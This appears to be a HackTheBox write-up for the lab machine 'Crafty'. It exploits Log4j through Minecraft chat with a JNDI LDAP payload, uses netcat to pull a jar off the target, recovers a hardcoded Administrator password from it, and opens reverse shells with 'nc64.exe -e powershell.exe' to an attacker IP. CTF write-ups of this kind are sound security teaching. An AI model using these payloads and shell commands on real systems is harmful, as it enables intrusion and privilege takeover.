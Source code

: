 ```yaml
---
layout: post
title:  "HTB: Crafty"
date:   2024-08-04
description: In Crafty, I'll exploit the infamous Log4j RCE exploit (CVE-2021-44228) on a Minecraft server to gain a shell as the user. Then, I'll discover a jar file in one of the user's directories, decompile it, and discover a hardcoded password which allows me to gain a shell as the Administrator.
tags: htb nmap minecraft log4j cve-2021-44228 hardcoded-credentials runascs ncat
---
```


## Overview

In Crafty, I'll exploit the infamous Log4j RCE exploit (CVE-2021-44228) on a Minecraft server to gain a shell as the user. Then, I'll discover a jar file in one of the user's directories, decompile it, and discover a hardcoded password which allows me to gain a shell as the Administrator.

## Recon

### nmap

```
$ sudo nmap -p 80,25565 -sSCV -oA nmap/crafty 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-24 00:33 +08
Nmap scan report for 10.10.11.249
Host is up (0.015s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.72 seconds
```

Interestingly, we have a Minecraft server running on port 25565!

### HTTP (TCP 80)

Visiting the website at `http://10.10.11.249`, we get the following landing page.
![Home page](/assets/img/2024-08-04-htb-crafty/home-page.png)

There isn't much we can do on this website, I tried adding `play.crafty.htb` to my hosts file and visiting that page, but got nothing. It's likely for joining the Minecraft server.

### Minecraft (TCP 25565)

Since this is Minecraft, it's worth trying the infamous Log4j exploit [(CVE-2021-4428)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

To perform the exploit, you can use the Minecraft client, join the server and send the payload in the server chat.
But I didn't own a copy of Minecraft and didn't want sail the seven seas, so I'll use a Python library to talk with the server.

## Shell as svc_minecraft

I'll use the Log4j exploit from [here](https://github.com/kozmer/log4j-shell-poc).
To send the payload to the server, I'll use [pyCraft](https://github.com/ammaraskar/pyCraft).

Log4j exploit:
```
$ python3 poc.py --userip 10.10.16.57 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228                                                                                                                                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                                                                                                                                   
                                                                                                                                                                                             
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                                                                                                                                             
[+] Send me: ${jndi:ldap://10.10.16.57:1389/a}
                                                                                                                                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

Start a netcat listener:
```
$ rlwrap nc -lvnp 9001
```

Send the payload to the server chat:
```
$ python3 start.py 
Enter your username: benkyou
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249:25565
Connecting in offline mode...
Connected.
${jndi:ldap://10.10.16.57:1389/a}
```

We get a shell back as svc_minecraft and get the user flag.
![User flag](/assets/img/2024-08-04-htb-crafty/user-flag.png)

## Shell as Administrator

Enumerating svc_minecraft's directories, we notice an out-of-place file (`playcounter-1.0-SNAPSHOT.jar`) in `C:\Users\svc_minecraft\server\plugins\`.

I'll upload netcat to the box and transfer the file to my host.
```
# Host
$ nc -lvnp 4242 > playcounter-1.0-SNAPSHOT.jar 
```

```
# Target
C:\Windows\Temp> nc64.exe 10.10.16.57 4242 < C:\Users\svc_minecraft\server\plugins\playcounter-1.0-SNAPSHOT.jar
```

### Analysing playcounter-1.0-SNAPSHOT.jar

I'll decompile the jar file for analysis.

We find a hardcoded password in the `onEnable` method of the `Playercounter` class.

![Hardcoded password](/assets/img/2024-08-04-htb-crafty/hardcoded-password.png)

Looking at `connect` confirms that the third argument seen earlier is indeed the password.

![Password argument](/assets/img/2024-08-04-htb-crafty/hardcoded-password-1.png)

To try the password against the local Adminstrator account, I'll upload [RunasCs](https://github.com/antonioCoco/RunasCs) to the box. Then, I'll use a reverse shell to gain access as the Administrator.

```
# Host
$ nc -lvnp 9002
```

```
# Target
C:\Windows\Temp> RunasCs.exe Administrator s67u84zKq8IXw "nc64.exe -e powershell.exe 10.10.16.57 9002" 
```

We successfully gain a shell as Administrator and obtain the root flag.

![Root flag](/assets/img/2024-08-04-htb-crafty/root-flag.png)